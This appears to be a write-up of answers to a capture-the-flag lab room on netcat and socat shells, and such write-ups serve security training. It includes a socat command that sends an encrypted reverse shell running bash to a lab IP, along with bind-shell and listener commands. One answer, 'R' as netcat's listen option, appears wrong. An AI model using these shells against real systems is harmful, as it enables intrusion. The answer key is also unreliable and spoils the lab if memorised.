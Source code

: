<h2>Task 4 - Netcat</h2>
<br>

> 4.1 - <em>Which option tells netcat to <em>listen</em>?</em><br>
>> <code><strong>R</strong></code><br>
<p><br></p>

> 4.2 - <em>How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?</em><br>
>> <code><strong>nc 10.10.10.11 8080</strong></code><br>
<p><br></p>

<h2>Task 5 - Netcat Shell Stabilisation</h2>
<br>

> 5.1 - <em>How would you change your terminal size to have 238 columns?</em><br>
>> <code><strong>stty cols 238</strong></code><br>
<p><br></p>

> 5.2 - <em>What is the syntax for setting up a Python3 webserver on port 80?</em><br>
>> <code><strong>sudo python3 -m http.server 80</strong></code><br>
<p><br></p>

<h2>Task 6 - Socat</h2>
<br>

> 6.1 - <em>How would we get socat to listen on TCP port 8080?</em><br>
>> <code><strong>TCP-L:8080</strong></code><br>
<p><br></p>

<h2>Task 7 - Socat Encrypted Shells</h2>
<br>

> 7.1 - <em>What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"</em><br>
>> <code><strong>socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0</strong></code><br>
<p><br></p>

> 7.2 - <em>If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?</em><br>
>> <code><strong>socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane</strong></code><br>
<p><br></p>

<h2>Task 8 - Common Shell Payloads</h2>
<br>

> 8.1 - <em>What command can be used to create a named pipe in Linux?</em><br>
>> <code><strong>mkfifo</strong></code><br>
<p><br></p>

> 8.2 - <em>Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>
